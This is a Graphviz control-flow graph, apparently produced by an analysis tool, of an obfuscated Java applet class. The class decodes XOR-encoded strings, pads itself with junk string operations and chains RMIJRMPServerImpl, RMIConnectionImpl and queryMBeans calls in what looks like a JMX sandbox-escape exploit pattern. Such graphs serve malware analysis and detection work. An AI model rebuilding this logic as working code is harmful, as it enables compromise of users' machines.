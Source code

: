 digraph "" {
    "r0 := @this: main"
    "push \"u\u007fqwasq|ppqwasidlqwask(,$;qwas.#>-\')$((1qwas<$#;=3*qwas=2!<qwas4\u0002\r\u0007\u0001\u001a\u0015\u0013\u001a\u0000\u0004\f\u0013\u0006\u000b\u0016\u0015\u001f\u0011\u001c\u0010\u0010\t\u0004\f\u000b\u0013aqwasie\u0014hfqwascsfl\""
    "r0 := @this: main"->"push \"u\u007fqwasq|ppqwasidlqwask(,$;qwas.#>-\')$((1qwas<$#;=3*qwas=2!<qwas4\u0002\r\u0007\u0001\u001a\u0015\u0013\u001a\u0000\u0004\f\u0013\u0006\u000b\u0016\u0015\u001f\u0011\u001c\u0010\u0010\t\u0004\f\u000b\u0013aqwasie\u0014hfqwascsfl\"";
    "push \"qwas\""
    "push \"u\u007fqwasq|ppqwasidlqwask(,$;qwas.#>-\')$((1qwas<$#;=3*qwas=2!<qwas4\u0002\r\u0007\u0001\u001a\u0015\u0013\u001a\u0000\u0004\f\u0013\u0006\u000b\u0016\u0015\u001f\u0011\u001c\u0010\u0010\t\u0004\f\u000b\u0013aqwasie\u0014hfqwascsfl\""->"push \"qwas\"";
    "push \"\""
    "push \"qwas\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"0sqwas4\n/\u00141qwas\u001d8qwas6!m\u000b)&4qwas<,\u001a\f\u000b\u0007#qwas=f\u0003!qwas#\u0016hqwas/m1qwasw\u000eqwasy;=iqwas*\t\u001eqwasl\u0014\u0008\u0014$qwas\u0000z\u0002\u0011\u001cxqwas\u0013|qwas\u0016uzqwas*\u0007fqwas(4\r8qwas\u001ezqwas\u0010\u007fwqwasq\r\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"0sqwas4\n/\u00141qwas\u001d8qwas6!m\u000b)&4qwas<,\u001a\f\u000b\u0007#qwas=f\u0003!qwas#\u0016hqwas/m1qwasw\u000eqwasy;=iqwas*\t\u001eqwasl\u0014\u0008\u0014$qwas\u0000z\u0002\u0011\u001cxqwas\u0013|qwas\u0016uzqwas*\u0007fqwas(4\r8qwas\u001ezqwas\u0010\u007fwqwasq\r\"";
    "push \"0sqwas4\n/\u00141qwas\u001d8qwas6!m\u000b)&4qwas<,\u001a\f\u000b\u0007#qwas=f\u0003!qwas#\u0016hqwas/m1qwasw\u000eqwasy;=iqwas*\t\u001eqwasl\u0014\u0008\u0014$qwas\u0000z\u0002\u0011\u001cxqwas\u0013|qwas\u0016uzqwas*\u0007fqwas(4\r8qwas\u001ezqwas\u0010\u007fwqwasq\r\""->"push \"qwas\"";
    "push \"qwas\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "store.r r2"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"store.r r2";
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"
    "store.r r2"->"staticinvoke <main: java.lang.String coder(java.lang.String)>";
    "store.r r3"
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"->"store.r r3";
    "load.r r2"
    "store.r r3"->"load.r r2";
    "load.r r2"->"staticinvoke <main: java.lang.String coder(java.lang.String)>";
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"->"store.r r2";
    "load.r r0"
    "store.r r2"->"load.r r0";
    "push \"\\\"/.*\u001b,;\""
    "load.r r0"->"push \"\\\"/.*\u001b,;\"";
    "push \"\\\"/.*\u001b,;\""->"staticinvoke <main: java.lang.String coder(java.lang.String)>";
    "virtualinvoke <main: java.lang.String getParameter(java.lang.String)>"
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"->"virtualinvoke <main: java.lang.String getParameter(java.lang.String)>";
    "staticput <main: java.lang.String __v>"
    "virtualinvoke <main: java.lang.String getParameter(java.lang.String)>"->"staticput <main: java.lang.String __v>";
    "staticget <main: java.lang.String __v>"
    "staticput <main: java.lang.String __v>"->"staticget <main: java.lang.String __v>";
    "staticget <main: java.lang.String __v>"->"load.r r2";
    "load.r r3"
    "load.r r2"->"load.r r3";
    "staticinvoke <main: java.lang.String __n(java.lang.String,java.lang.String,java.lang.String)>"
    "load.r r3"->"staticinvoke <main: java.lang.String __n(java.lang.String,java.lang.String,java.lang.String)>";
    "staticinvoke <main: java.lang.String __n(java.lang.String,java.lang.String,java.lang.String)>"->"staticput <main: java.lang.String __v>";
    "push \"qwasqwasqwasqwas_4ae7a51a5d2fqwasqwasqwas\""
    "staticput <main: java.lang.String __v>"->"push \"qwasqwasqwasqwas_4ae7a51a5d2fqwasqwasqwas\"";
    "push \"qwasqwasqwasqwas_4ae7a51a5d2fqwasqwasqwas\""->"push \"qwas\"";
    "push \"qwas\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "pop"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"pop";
    "push \"qwasqwasqwas_b1d18553a3c6qwasqwasqwasqwas\""
    "pop"->"push \"qwasqwasqwas_b1d18553a3c6qwasqwasqwasqwas\"";
    "push \"qwasqwasqwas_b1d18553a3c6qwasqwasqwasqwas\""->"push \"qwas\"";
    "push \"qwas\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"pop";
    "push \"qwasqwasqwas257qwasqwasqwasqwas\""
    "pop"->"push \"qwasqwasqwas257qwasqwasqwasqwas\"";
    "push \"qwasqwasqwas257qwasqwasqwasqwas\""->"push \"qwas\"";
    "push \"qwas\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"pop";
    "push \"}v{w\""
    "pop"->"push \"}v{w\"";
    "push \"}v{w\""->"staticinvoke <main: java.lang.String coder(java.lang.String)>";
    "staticput <main: java.lang.String __Y>"
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"->"staticput <main: java.lang.String __Y>";
    "staticput <main: java.lang.String __Y>"->"staticget <main: java.lang.String __v>";
    "ifnull return"
    "staticget <main: java.lang.String __v>"->"ifnull return";
    "push null"
    "ifnull return"->"push null";
    "push null"->"store.r r3";
    "staticget <main: java.lang.String filename>"
    "store.r r3"->"staticget <main: java.lang.String filename>";
    "staticget <main: java.lang.String filename>"->"load.r r0";
    "store.r r0"
    "load.r r0"->"store.r r0";
    "goto load.r r3"
    "store.r r0"->"goto load.r r3";
    "goto load.r r3"->"load.r r3";
    "ifnull goto return"
    "load.r r3"->"ifnull goto return";
    "new javax.management.remote.rmi.RMIJRMPServerImpl"
    "ifnull goto return"->"new javax.management.remote.rmi.RMIJRMPServerImpl";
    "new javax.management.remote.rmi.RMIJRMPServerImpl"->"store.r r0";
    "store.r r0"->"load.r r0";
    "push 0"
    "load.r r0"->"push 0";
    "push 0"->"push null";
    "checkcast"
    "push null"->"checkcast";
    "checkcast"->"push null";
    "push null"->"checkcast";
    "checkcast"->"push null";
    "push null"->"checkcast";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"
    "checkcast"->"specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>";
    "push \"qwasqwasqwas_a003119d6qwasqwasqwasqwas\""
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"->"push \"qwasqwasqwas_a003119d6qwasqwasqwasqwas\"";
    "push \"qwasqwasqwas_a003119d6qwasqwasqwasqwas\""->"push \"qwas\"";
    "push \"qwas\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"pop";
    "push \"qwasqwasqwas_d3ddde18qwasqwasqwasqwas\""
    "pop"->"push \"qwasqwasqwas_d3ddde18qwasqwasqwasqwas\"";
    "push \"qwasqwasqwas_d3ddde18qwasqwasqwasqwas\""->"push \"qwas\"";
    "push \"qwas\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"pop";
    "push \"qwasqwasqwas_498c996qwasqwasqwasqwas\""
    "pop"->"push \"qwasqwasqwas_498c996qwasqwasqwasqwas\"";
    "push \"qwasqwasqwas_498c996qwasqwasqwasqwas\""->"push \"qwas\"";
    "push \"qwas\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"pop";
    "push \"qwasqwas_a7d170b00fad21qwasqwasqwasqwasqwas\""
    "pop"->"push \"qwasqwas_a7d170b00fad21qwasqwasqwasqwasqwas\"";
    "push \"qwasqwas_a7d170b00fad21qwasqwasqwasqwasqwas\""->"push \"qwas\"";
    "push \"qwas\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"pop";
    "pop"->"load.r r0";
    "new y61u71"
    "load.r r0"->"new y61u71";
    "dup1.r"
    "new y61u71"->"dup1.r";
    "specialinvoke <y61u71: void <init>()>"
    "dup1.r"->"specialinvoke <y61u71: void <init>()>";
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"
    "specialinvoke <y61u71: void <init>()>"->"virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>";
    "push \"qwasqwas_5ed39a4qwasqwasqwasqwasqwas\""
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"->"push \"qwasqwas_5ed39a4qwasqwasqwasqwasqwas\"";
    "push \"qwasqwas_5ed39a4qwasqwasqwasqwasqwas\""->"push \"qwas\"";
    "push \"qwas\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"pop";
    "new javax.management.remote.rmi.RMIConnectionImpl"
    "pop"->"new javax.management.remote.rmi.RMIConnectionImpl";
    "new javax.management.remote.rmi.RMIConnectionImpl"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"*%,$+.0;3\""
    "load.r r0"->"push \"*%,$+.0;3\"";
    "push \"*%,$+.0;3\""->"staticinvoke <main: java.lang.String coder(java.lang.String)>";
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"->"push null";
    "push null"->"checkcast";
    "checkcast"->"push null";
    "push null"->"checkcast";
    "checkcast"->"push null";
    "push null"->"checkcast";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"
    "checkcast"->"specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"->"push null";
    "push null"->"checkcast";
    "checkcast"->"load.r r3";
    "load.r r3"->"push null";
    "push null"->"checkcast";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"
    "checkcast"->"virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"->"store.r r0";
    "load.r r0"->"store.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "staticinvoke <q31p01: java.lang.Object __s(java.lang.String,java.lang.Class)>"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"staticinvoke <q31p01: java.lang.Object __s(java.lang.String,java.lang.Class)>";
    "staticinvoke <q31p01: java.lang.Object __s(java.lang.String,java.lang.Class)>"->"checkcast";
    "checkcast"->"store.r r3";
    "store.r r3"->"goto load.r r3";
}
